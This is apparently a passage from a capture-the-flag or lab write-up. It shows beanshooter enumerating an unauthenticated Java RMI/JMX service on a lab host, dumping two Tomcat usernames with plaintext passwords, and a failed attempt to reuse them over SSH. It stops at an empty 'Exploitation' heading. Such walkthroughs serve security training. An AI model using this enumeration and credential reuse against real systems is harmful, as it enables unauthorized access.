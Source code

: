 #### Java RMI (2222)
Java RMI (Remote Method Invocation) is a technology built into the Java platform that allows a Java program on one computer to invoke methods (functions) on an object running on another computer—as if it were running locally.



Use beanshooter to enumerate Java RMI services and check for common weaknesses.
> The Beanshooter tool was used for vulnerability scanning and exploitation, revealing that authentication is not enabled and some credentials for the Tomcat users are exposed.

```sh
java -jar  beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.124.180 2222
[+] Checking available bound names:
[+]
[+] 	* jmxrmi (JMX endpoint: 127.0.1.1:33875)
[+]
[+] Checking for unauthorized access:
[+]
[+] 	- Remote MBean server does not require authentication.
[+] 	  Vulnerability Status: Vulnerable
[+]
[+] Checking pre-auth deserialization behavior:
[+]
[+] 	- Remote MBeanServer rejected the payload class.
[+] 	  Vulnerability Status: Non Vulnerable
[+]
                        .....................................
[+]
[+] Enumerating tomcat users:
[+]
[+] 	- Listing 2 tomcat users:
[+]
[+] 		----------------------------------------
[+] 		Username:  manager
[+] 		Password:  fhErvo2r9wuTEYiYgt
[+] 		Roles:
[+] 			   Users:type=Role,rolename="manage-gui",database=UserDatabase
[+]
[+] 		----------------------------------------
[+] 		Username:  admin
[+] 		Password:  onyRPCkaG4iX72BrRtKgbszd
[+] 		Roles:
[+] 			   Users:type=Role,rolename="role1",database=UserDatabase
```
I tried to reuse the admin credentials for SSH, but Authentication failed. likely requires a key or SSH is configured for key-based login only
```sh
$ ssh admin@10.10.124.180
admin@10.10.124.180: Permission denied (publickey).
```
## Exploitation
